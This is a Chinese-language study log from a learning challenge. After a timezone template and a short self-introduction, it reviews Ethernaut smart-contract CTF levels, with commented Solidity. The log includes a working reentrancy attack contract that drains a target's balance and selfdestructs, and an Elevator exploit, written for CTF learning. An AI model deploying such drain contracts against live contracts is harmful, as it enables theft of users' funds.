 ```yaml
---
timezone: Pacific/Auckland
---
```


> 请在上边的 timezone 添加你的当地时区，这会有助于你的打卡状态的自动化更新，如果没有添加，默认为北京时间 UTC+8 时区
> 时区请参考以下列表，请移除 # 以后的内容

timezone: Pacific/Honolulu # 夏威夷-阿留申标准时间 (UTC-10)

timezone: America/Anchorage # 阿拉斯加标准时间 (UTC-9)

timezone: America/Los_Angeles # 太平洋标准时间 (UTC-8)

timezone: America/Denver # 山地标准时间 (UTC-7)

timezone: America/Chicago # 中部标准时间 (UTC-6)

timezone: America/New_York # 东部标准时间 (UTC-5)

timezone: America/Halifax # 大西洋标准时间 (UTC-4)

timezone: America/St_Johns # 纽芬兰标准时间 (UTC-3:30)

timezone: America/Sao_Paulo # 巴西利亚时间 (UTC-3)

timezone: Atlantic/Azores # 亚速尔群岛时间 (UTC-1)

timezone: Europe/London # 格林威治标准时间 (UTC+0)

timezone: Europe/Berlin # 中欧标准时间 (UTC+1)

timezone: Europe/Helsinki # 东欧标准时间 (UTC+2)

timezone: Europe/Moscow # 莫斯科标准时间 (UTC+3)

timezone: Asia/Dubai # 海湾标准时间 (UTC+4)

timezone: Asia/Kolkata # 印度标准时间 (UTC+5:30)

timezone: Asia/Dhaka # 孟加拉国标准时间 (UTC+6)

timezone: Asia/Bangkok # 中南半岛时间 (UTC+7)

timezone: Asia/Shanghai # 中国标准时间 (UTC+8)

timezone: Asia/Taipei # 台灣标准时间 (UTC+8)

timezone: Asia/Tokyo # 日本标准时间 (UTC+9)

timezone: Australia/Sydney # 澳大利亚东部标准时间 (UTC+10)

timezone: Pacific/Auckland # 新西兰标准时间 (UTC+12)

---

# {你的名字}

1. 自我介绍
   一个区块链工程专业的国内在读本科生，关注密码学和合约审计安全
2. 你认为你会完成本次残酷学习吗？
   包的
## Notes

<!-- Content_START -->

### 2024.08.29

回顾了一下ethernaut前面的题目：
11. 
pragma solidity ^0.7;
interface IReentrancy {
    function donate(address) external payable;
    function withdraw(uint256) external;
}
contract Hack { 
    IReentrancy private immutable target;
    constructor(address _target){
        target =IReentrancy(_target);
    }
    function attack() external payable{
        //这个合约一开始先给被攻击合约转入1wei
        target.donate{value:1e18}(address(this));
        //这个用法表达的意思为调用这个函数并且传递自己合约的地址
        target.withdraw(1e18);
        require (address(target).balance==0,"target balance>0");
        selfdestruct(payable(msg.sender));
    }
    receive() external payable{
        uint amount=min(1e18,address(target).balance);
        if(amount>0){
        target.withdraw(amount);//这里再重入攻击
        }
    }
    function min(uint x,uint y) private pure returns (uint){
        return x<=y?x:y;
    }
}


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
    contract Hack {
        Elevator private immutable target;
        uint private count=0;
        constructor(address _target){
            target=Elevator(_target);
        }
        function pwn()external {
            target.goTo(1);
            require(target.top(),"not top");
        }
        function isLastFloor(uint) external returns (bool){
            count++;
            return count>1;
        }
        
    }

12. 
interface Building {
  function isLastFloor(uint) external returns (bool);
}
//这边这个合约的接口是一个判断是不是顶楼的，这边其实不重要
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
//这边给Building的接口了一个地址--就是攻击合约的地址
    if (! building.isLastFloor(_floor)) {//由于这里没有对这个函数定义，所以自己写一个合约来进行攻击
      floor = _floor;
      top = building.isLastFloor(floor);//这题判断是不是成功就是看这个地方top的值是不是true
    }
  }
}

### 2024.08.31



<!-- Content_END -->
